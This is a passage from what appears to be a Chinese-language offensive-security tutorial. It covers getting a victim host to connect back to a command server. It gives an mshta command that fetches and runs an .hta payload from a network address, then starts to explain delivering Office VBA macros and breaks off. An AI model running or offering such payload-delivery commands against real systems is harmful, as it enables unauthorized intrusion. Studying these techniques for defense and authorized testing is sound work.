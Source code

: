 执行上线很简单，使用 mshta 执行 .hta 文件即可。

```plaintext
mshta http://192.168.0.102:80/download/file.ext
```

#### MS Office Macro

微软 Office Word，Excel，PowerPoint 常说宏都是用 VBA（Visual Basic for Application）编写的，这个宏的作用是可以访问部分 Windows API 模拟键盘、鼠标等操作。

此功能在“视图 -> 查看宏”，英文也是“view → macros”。

![宏功能菜单位置.png](assets/1708583825-90342aa53823b390054e745ca3883192.png)

输入宏的名称，并选择宏用于哪个文档，这里选择的是“文档 1（文档）”，可以通过当前文档名确认就是当前文档。
